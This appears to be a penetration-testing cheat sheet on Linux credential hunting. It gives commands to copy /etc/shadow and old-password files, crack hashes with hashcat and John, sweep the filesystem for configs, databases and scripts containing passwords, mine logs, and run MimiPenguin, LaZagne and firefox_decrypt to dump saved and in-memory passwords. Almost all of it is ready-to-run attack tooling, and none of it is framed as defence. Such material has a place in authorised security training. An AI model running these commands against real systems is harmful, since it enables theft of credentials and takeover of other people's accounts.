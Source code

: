 # Linux Credential Hunting

Techniques for finding and extracting credentials on Linux systems, including password hashes, config files, and memory.

---

## Tools

| Tool                                                       | Description                                                  |
| ---------------------------------------------------------- | ------------------------------------------------------------ |
| [MimiPenguin](https://github.com/huntergregal/mimipenguin) | Dump the login password from current user                    |
| [LaZagne](https://github.com/AlessandroZ/LaZagne)          | **Retrieve lots of passwords** stored on a local computer    |
| Firefox Decrypt                                            | Tool to extract passwords from Mozilla profiles (Firefox, Thunderbird) |

---

## Local Password Hashes

### Passwd and Shadow Files

```bash
# Copy passwd, shadow, and opasswd (old passwords)
sudo cp /etc/passwd /tmp/passwd.bak
sudo cp /etc/shadow /tmp/shadow.bak
sudo cat /etc/security/opasswd
```

### Cracking Credentials

```bash
# Combine passwd and shadow for cracking
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes

# Crack with hashcat
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked

# John single crack mode (based on username)
grep martin unshadowed.hashes > passwd
john --single passwd
```

---

## Searching for Credentials in Files

```bash
# Find config files
for l in $(echo ".conf .config .cnf"); do
  echo -e "\nFile extension: $l"
  find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core"
done

# Search configs for keywords
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib"); do
  echo -e "\nFile: $i"
  grep "user\|password\|pass" $i 2>/dev/null | grep -v "#"
done
```

### Databases and Notes

```bash
# Search for database files
for l in $(echo ".sql .db .*db .db*"); do
  echo -e "\nDB File extension: $l"
  find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man"
done

# Search for text notes
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

### Scripts

```bash
# Likely to contain creds (Python, Perl, Bash, etc.)
for l in $(echo ".py .pyc .pl .go .jar .c .sh"); do
  echo -e "\nFile extension: $l"
  find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share"
done
```

---

## Logs and History

```bash
# Interesting locations
/etc/cron
~/bash_history
```

### Common Logs

| File                | Description                          |
| ------------------- | ------------------------------------ |
| `/var/log/messages` | Generic system logs                  |
| `/var/log/auth.log` | Authentication logs (Debian)         |
| `/var/log/secure`   | Authentication logs (RedHat/CentOS)  |
| `/var/log/syslog`   | Generic system logs                  |
| `/var/log/boot.log` | Boot information                     |
| `/var/log/kern.log` | Kernel warnings and errors           |
| `/var/log/faillog`  | Failed login attempts                |
| `/var/log/cron`     | Cron job logs                        |
| `/var/log/mail.log` | Mail server logs                     |
| `/var/log/httpd`    | Apache logs                          |
| `/var/log/mysqld.log` | MySQL logs                        |

```bash
# Grep for login activity in logs
for i in $(ls /var/log/* 2>/dev/null); do
  GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND=\|logs" $i 2>/dev/null)
  if [[ $GREP ]]; then
    echo -e "\n#### Log file: $i"
    echo "$GREP"
  fi
done
```

---

## Memory and Cache Tools

```bash
# Dump current desktop password
sudo python3 mimipenguin.py

# Retrieve stored creds from many apps
sudo python2.7 laZagne.py all

# Decrypt Firefox credentials
ls -l .mozilla/firefox/ | grep default
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
python3.9 firefox_decrypt.py
```

---
